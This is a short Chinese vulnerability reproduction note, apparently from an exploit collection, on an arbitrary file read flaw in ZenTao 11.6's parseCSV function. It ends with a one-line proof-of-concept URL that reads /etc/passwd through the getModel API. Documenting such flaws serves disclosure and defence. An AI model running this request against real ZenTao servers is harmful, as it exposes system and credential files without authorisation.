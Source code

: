 禅道 11.6 任意文件读取
======================

一、漏洞简介
------------

禅道项目管理软件是一款国产的，基于LGPL协议，开源免费的项目管理软件，它集产品管理、项目管理、测试管理于一体，同时还包含了事务管理、组织管理等诸多功能，是中小型企业项目管理的首选，基于自主的PHP开发框架──ZenTaoPHP而成，第三方开发者或企业可非常方便的开发插件或者进行定制。
厂商官网：<https://www.zentao.net/>
而此次发现的漏洞正是ZenTaoPHP框架中的通用代码所造成的的，因此禅道几乎所有的项目都受此漏洞影响

二、漏洞影响
------------

禅道 11.6

禅道开源版 9版本

三、复现过程
------------

漏洞代码位于module/file/model.php中的parseCSV函数

![](./.resource/禅道11.6任意文件读取/media/rId25.png)

这里通过上面的思路同样可以对fileName进行赋值，最终返回读取的文件数据
漏洞poc为：

    http://www.0-sec.org/zentaopms_11.6/www/api-getModel-file-parseCSV-fileName=/etc/passwd

image
